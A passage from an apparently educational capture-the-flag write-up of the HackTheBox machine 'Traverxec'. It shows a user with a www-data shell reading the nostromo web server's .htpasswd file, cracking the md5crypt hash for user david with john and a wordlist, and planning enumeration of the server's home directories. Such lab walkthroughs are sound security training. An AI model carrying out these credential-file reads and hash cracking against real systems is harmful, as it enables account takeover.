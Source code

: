 ```bash
htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```
So we obtained a hash for user david, let's crack it with `john`:
```bash
❯ echo 'david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' > Results/david_hash
❯ john --wordlist=/usr/share/dict/rockyou.txt Results/david_hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
Use the "--format=md5crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:01:01 DONE (2022-06-11 11:55) 0.01629g/s 172399p/s 172399c/s 172399C/s Noyonecta..Nourwrong1978
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
So we obtained a password for david, `david:Nowonly4me`, let's try to login:
```bash
www-data@traverxec:/var/nostromo/conf$ su david
Password: # Nowonly4me
su: Authentication failure
```
Then, let's try to enumerate vulns related to the server now that we have a password. If we remember reading `nhttpd.conf` we can enumerate:
- Domain name: `traverxec.htb`
- Server admin: `david@traverxec.htb`
- Homedirs: `/home`
- Homedirs_public: `public_www`
  
First, let's add `traverxec.htb` to the `/etc/hosts` file, which will let us perform subdomain fuzzing if needed. Also, let's google how homedirs work in nostromo. From [nostromo web server](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD) we can read:
```text
To access a users home directory enter a ~ in the URL followed by the home directory name like in this example:
http://www.nazgul.ch/~hacki/
```
As we know, the `homedirs` field id `/home`, so we could try the following request: